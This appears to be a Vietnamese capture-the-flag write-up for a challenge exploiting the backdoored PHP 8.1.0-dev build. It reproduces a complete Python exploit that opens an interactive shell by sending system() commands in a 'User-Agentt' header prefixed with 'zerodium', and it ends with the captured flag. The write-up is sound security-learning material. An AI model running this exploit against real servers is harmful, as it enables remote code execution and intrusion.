




<h1>Vul: RCE (CVE PHP/8.1.0-dev)</h1>

Đây giao diện của web



Để ý phiên bản của PHP



Theo như bài viết <a href="https://flast101.github.io/php-8.1.0-dev-backdoor-rce/">này</a>, thì ở dòng 370 thực thi mã PHP từ bên trong <b>user-agent HTTP</b> của người dùng, nếu chuỗi bắt đầu bằng <b>zerodium</b>.



Mã nguồn khai thác lỗ hổng tại <a href="https://www.exploit-db.com/exploits/49933">đây</a>

```python
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

Kết quả:



```
Flag: BDSEC{php_15_7h3_b357_pr06r4mm1n6_l4n6u463}
```